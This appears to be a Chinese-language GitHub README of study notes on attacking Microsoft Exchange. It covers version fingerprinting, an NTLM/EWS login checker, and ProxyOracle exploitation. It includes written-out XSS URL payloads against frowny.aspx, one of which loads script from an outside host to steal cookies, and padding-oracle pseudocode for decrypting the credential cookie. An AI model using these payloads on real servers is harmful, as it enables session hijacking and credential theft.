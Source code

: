 # Exchange学习

整理和自己写了一些exchange的脚本

## CheckInfo

### 版本识别

1. 通过 `owa` 接口，获取短版本信息

2. 通过 `/ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application` 接口获取完整版本信息

3. 通过 `/owa/service`, `/owa` 接口响应头 X-OWA-Version获取完整版本

4. 爆破 `/ecp/{version}/exporttool/` 最后一位，获取完整版本

### 漏洞检测
参考[这篇文章](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-Exchange%E7%89%88%E6%9C%AC%E6%8E%A2%E6%B5%8B%E5%92%8C%E6%BC%8F%E6%B4%9E%E6%A3%80%E6%B5%8B)，根据https://learn.microsoft.com/en-us/Exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019匹配版本和日期识别漏洞
## NtmlLoginEWS

checkLogin 支持明文密码和ntlm登录，参考[这篇文章](https://github.com/3gstudent/Homework-of-Python/blob/master/checkEWS.py)修改的脚本，更简洁明了


## 漏洞利用

### ProxyOracle

1. xss打cookie  https://192.168.52.149/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};alert(document.cookie)//

https://192.168.52.149/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.head.appendChild(document.createElement(/script/.source)).src=/https:\/\/OurXssServer.com\/index.js/.source//  利用dnslog平台打cookie


参考 https://www.4hou.com/posts/lEOM 

2. PaddingOracle 解密明文

大致原理，按位推算明文，没太看明白

参考 

https://hosch3n.github.io/2021/08/10/PaddingOracle%E6%94%BB%E5%87%BB%E5%8E%9F%E7%90%86/

https://paper.seebug.org/1123/

https://github.com/hosch3n/ProxyVulns

```python
# 必然存在一个guess_iv[-1]值符合
guess_iv[-1] ^ middle[-1] = 0x01
# 根据异或可逆性反推出真实中间值middle[-1]
middle[-1] = guess_iv[-1] ^ 0x01
# 得到真实中间值middle[-1]后，与原本的iv[-1]算出真实的明文plain[-1]
plain[-1] = iv[-1] ^ middle[-1]
```

cadata字段是用AES-CBC加密的"Basic " + ToBase64String(UserName + ":" + Password)

由于IV是RSA加密，但前12个字节固定，所以后4个字节无法得到，就无法得到账号前2位

![PaddingOracle](./img/pic1.png)


### ProxyShell


